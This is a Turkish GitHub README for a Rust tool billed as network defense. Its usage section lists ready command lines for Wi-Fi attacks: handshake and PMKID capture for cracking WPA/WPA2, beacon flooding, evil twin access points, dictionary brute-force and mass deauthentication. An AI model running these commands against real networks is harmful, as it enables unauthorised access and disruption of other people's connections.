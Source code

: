 ## OznDefense Network System
OznDefense, ağ güvenliği ve savunması üzerine odaklanmış bir araçtır. Bu sistem, ağ trafiğini izlemek ve çeşitli güvenlik tehditlerine karşı koruma sağlamak için tasarlanmıştır. 🛡️

#### Özellikler
Ağ Trafiği İzleme: Gerçek zamanlı ağ trafiğini izleme. 📈
Tehdit Algılama: Şüpheli faaliyetleri ve güvenlik tehditlerini algılama. 🚨
Raporlama: Güvenlik olayları ve ağ trafiği hakkında ayrıntılı raporlar sunma. 📊
## Kurulum
Gereksinimler
Rust programlama dili 🦀
cargo ve rustc araçları
Diğer bağımlılıklar için Cargo.toml dosyasına bakın
Adımlar
[Rust Resmi Sitesinden Rustı İndirin](https://www.rust-lang.org/)n.

### Depoyu Klonlayın:

git clone https://github.com/ibrahimsql/OznDefense-Network-System.git
Projeyi Derleyin:

cd OznDefense-Network-System
cargo build --release
### Uygulamayı Başlatın:


### ./target/release/ozn_defense
Kullanım
Temel Kullanım
OznDefense uygulamasını başlattıktan sonra, ağ trafiğini izlemeye başlamak için aşağıdaki adımları izleyebilirsiniz:

### Uygulamayı Başlatın:
./target/release/ozn_defense

### Ağ Trafiğini İzleme:

Uygulama başlatıldığında, otomatik olarak ağ trafiğini izlemeye başlayacaktır. Bu işlem sırasında kullanıcı arayüzünde gerçek zamanlı ağ trafiği ve güvenlik olayları hakkında bilgiler görüntülenecektir. 📡

Konfigürasyon Dosyasının Düzenlenmesi
config.toml dosyasını düzenleyerek ağ ayarlarınızı yapılandırabilirsiniz. Aşağıda örnek bir konfigürasyon dosyası bulunmaktadır:

toml
[network]
interface = "eth0"
log_level = "info"

[alerts]
enabled = true
threshold = 10
interface: İzlemek istediğiniz ağ arayüzünü belirtir.
log_level: Log seviyesini belirler (info, warn, error).
alerts: Uyarıları etkinleştirir ve eşik değerini ayarlar.
Örnek Kullanımlar

#### 1. El Sıkışma Yakalama (Handshake Capture) 🤝
Bu mod, bir Wi-Fi ağına bağlanan cihazların el sıkışmalarını yakalar. WPA/WPA2 şifrelerini kırmak için kullanılır.

cargo run -- --mode handshake_capture --interface wlan0 --target_bssid AA:BB:CC:DD:EE:FF --packet_count 100
--mode handshake_capture: El sıkışma yakalama modunu seçer.
--interface wlan0: Kullanılacak ağ arayüzü.
--target_bssid AA:BB:CC:DD:EE:FF: Hedefin BSSID'si.
--packet_count 100: Yakalamak için gönderilecek paket sayısı.


#### 2. Beacon Flooding 🌊
Bu mod, sahte erişim noktaları oluşturarak Wi-Fi tarayıcılarını yanıltır ve gerçek erişim noktalarını gizler.

cargo run -- --mode beacon_flood --interface wlan0 --packet_count 500 --target_ssid_prefix "FakeAP_"
--mode beacon_flood: Beacon flood saldırı modunu seçer.
--interface wlan0: Kullanılacak ağ arayüzü.
--packet_count 500: Gönderilecek beacon paketi sayısı.
--target_ssid_prefix "FakeAP_": Sahte SSID'lerin ön eki.


#### 3. Evil Twin Attack 👯‍♂️
Bu saldırı, bir kullanıcıyı sahte bir erişim noktasına bağlamaya çalışır.


cargo run -- --mode evil_twin --interface wlan0 --target_ssid "TargetSSID" --deauth_all true --log_path /path/to/log.txt
--mode evil_twin: Evil Twin saldırı modunu seçer.
--interface wlan0: Kullanılacak ağ arayüzü.
--target_ssid "TargetSSID": Hedef SSID adı.
--deauth_all true: Tüm istemcileri hedef alır.
--log_path /path/to/log.txt: Kayıt dosyasının yolu.

#### 4. PMKID Attack 🛠️
PMKID, WPA/WPA2 ağlarında bir tür el sıkışma yakalama yöntemidir. Bu komut PMKID'leri yakalamaya yöneliktir.

cargo run -- --mode pmkid_attack --interface wlan0 --target_bssid AA:BB:CC:DD:EE:FF --verbosity 3
--mode pmkid_attack: PMKID saldırı modunu seçer.
--interface wlan0: Kullanılacak ağ arayüzü.
--target_bssid AA:BB:CC:DD:EE:FF: Hedef BSSID.
--verbosity 3: Çıktının detay seviyesini belirler.

#### 5. Bruteforce WPA/WPA2 Attack 🔑
Bu saldırı, WPA/WPA2 şifrelerini brute-force yöntemiyle kırmaya çalışır.

cargo run -- --mode wpa_crack --interface wlan0 --dictionary_path /path/to/dictionary.txt --target_bssid AA:BB:CC:DD:EE:FF --verbosity 2
--mode wpa_crack: WPA/WPA2 şifre kırma modunu seçer.
--interface wlan0: Kullanılacak ağ arayüzü.
--dictionary_path /path/to/dictionary.txt: Sözlük dosyasının yolu.
--target_bssid AA:BB:CC:DD:EE:FF: Hedef BSSID.
--verbosity 2: Çıktının detay seviyesini belirler.

#### 6. Deauthentication Attack for All Clients ⚡
Bu saldırı, belirli bir erişim noktasına bağlı tüm cihazları hedef alır ve bağlantılarını kesmeye çalışır.

cargo run -- --mode deauth --interface wlan0 --target_bssid AA:BB:CC:DD:EE:FF --deauth_all true --packet_count 5000
--mode deauth: Deauthentication saldırı modunu seçer.
--interface wlan0: Kullanılacak ağ arayüzü.
--target_bssid AA:BB:CC:DD:EE:FF: Hedef BSSID.
--deauth_all true: Tüm istemcileri hedef alır.
--packet_count 5000: Gönderilecek paket sayısı.
Katkıda Bulunma
Katkıda bulunmak istiyorsanız, lütfen aşağıdaki adımları takip edin:

## [Fork](https://github.com/ibrahimsql/OznDefense-Network-System/)depoyu. 🍴
Yeni bir dal oluşturun (git checkout -b feature-branch).
Değişikliklerinizi yapın ve test edin. 🧪
Değişikliklerinizi commit edin ve push yapın (git push origin feature-branch). 🚀
[Pull Request Oluşturun](https://github.com/ibrahimsql/OznDefense-Network-System/pulls). 📥
[LICENSE](LICENSE)
Bu proje MIT Lisansı altında lisanslanmıştır. 📜

## İletişim
Daha fazla bilgi veya destek için [Benimle](https://www.instagram.com/ibrahimsql/)iletişime geçebilirsiniz. 📧

